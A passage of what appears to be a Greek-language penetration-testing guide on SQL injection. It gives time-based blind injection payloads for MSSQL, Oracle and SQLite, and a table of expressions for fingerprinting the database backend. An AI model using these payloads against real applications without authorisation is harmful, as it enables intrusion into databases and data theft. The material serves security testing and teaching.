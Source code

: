 ```
MSQL
1' WAITFOR DELAY '0:0:10'

Oracle
1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)

SQLite
1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
```
Σε ορισμένες περιπτώσεις οι **συναρτήσεις ύπνου δεν θα επιτρέπονται**. Σε αυτή την περίπτωση, αντί να χρησιμοποιήσετε αυτές τις συναρτήσεις, μπορείτε να κάνετε το ερώτημα να **εκτελεί πολύπλοκες λειτουργίες** που θα διαρκέσουν αρκετά δευτερόλεπτα. _Παραδείγματα αυτών των τεχνικών θα αναφερθούν ξεχωριστά για κάθε τεχνολογία (αν υπάρχουν)_.

### Αναγνώριση του πίσω μέρους

Ο καλύτερος τρόπος για να αναγνωρίσετε το πίσω μέρος είναι να προσπαθήσετε να εκτελέσετε συναρτήσεις των διαφορετικών πισω μερών. Μπορείτε να χρησιμοποιήσετε τις _**συναρτήσεις ύπνου**_ από την προηγούμενη ενότητα ή αυτές (πίνακας από το [payloadsallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#dbms-identification):
```bash
["conv('a',16,2)=conv('a',16,2)"                   ,"MYSQL"],
["connection_id()=connection_id()"                 ,"MYSQL"],
["crc32('MySQL')=crc32('MySQL')"                   ,"MYSQL"],
["BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)"       ,"MSSQL"],
["@@CONNECTIONS>0"                                 ,"MSSQL"],
["@@CONNECTIONS=@@CONNECTIONS"                     ,"MSSQL"],
["@@CPU_BUSY=@@CPU_BUSY"                           ,"MSSQL"],
["USER_ID(1)=USER_ID(1)"                           ,"MSSQL"],
["ROWNUM=ROWNUM"                                   ,"ORACLE"],
["RAWTOHEX('AB')=RAWTOHEX('AB')"                   ,"ORACLE"],
["LNNVL(0=123)"                                    ,"ORACLE"],
["5::int=5"                                        ,"POSTGRESQL"],
["5::integer=5"                                    ,"POSTGRESQL"],
["pg_client_encoding()=pg_client_encoding()"       ,"POSTGRESQL"],
["get_current_ts_config()=get_current_ts_config()" ,"POSTGRESQL"],
["quote_literal(42.5)=quote_literal(42.5)"         ,"POSTGRESQL"],
["current_database()=current_database()"           ,"POSTGRESQL"],
["sqlite_version()=sqlite_version()"               ,"SQLITE"],
["last_insert_rowid()>1"                           ,"SQLITE"],
["last_insert_rowid()=last_insert_rowid()"         ,"SQLITE"],
["val(cvar(1))=1"                                  ,"MSACCESS"],
["IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0"               ,"MSACCESS"],
["cdbl(1)=cdbl(1)"                                 ,"MSACCESS"],
["1337=1337",   "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
["'i'='i'",     "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
```
Επίσης, αν έχετε πρόσβαση στην έξοδο του ερωτήματος, μπορείτε να το κάνετε **να εκτυπώσει την έκδοση της βάσης δεδομένων**.
